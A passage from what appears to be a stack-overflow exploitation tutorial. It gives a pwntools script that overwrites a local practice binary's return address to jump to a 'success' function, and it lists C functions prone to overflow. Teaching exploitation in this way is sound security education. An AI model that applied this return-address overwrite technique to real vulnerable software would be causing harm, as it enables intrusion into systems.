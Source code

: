 According to the above analysis, you can start to construct the corresponding `exploit`. One thing to note here is that each value in computer memory is stored in bytes. Generally, small-endian storage is used, that is, `0x080491B6` in memory is `\xb6\x91\x04\x08`. `exploit` is as follows:

```python
# coding=utf-8
from pwn import *

# Construct an object that interacts with the program
p = process('./example')
success_addr = 0x080491B6

# Construct Payload
# payload = 'a' * 0x16 + p32(success_addr)
payload = 'a' * 0x12 + 'bbbb' + p32(success_addr)

# Send Payload
p.sendline(payload)

# Change code interaction to manual interaction
p.interactive()
```

Execute `exploit`, and you can see that the `success` function has been successfully executed.

<div align=center><img src="./images/9.png"></div>

## Summarize
### Find dangerous functions
By looking for hazard functions, you can quickly determine whether a program may have stack overflow, and if it exists, where the stack overflow is located. Common hazard functions are as follows:
 - Input
   - gets
   - scanf
   - vscanf
 - Output
   - sprintf
 - String
   - strcpy
   - strcat
   - bcopy
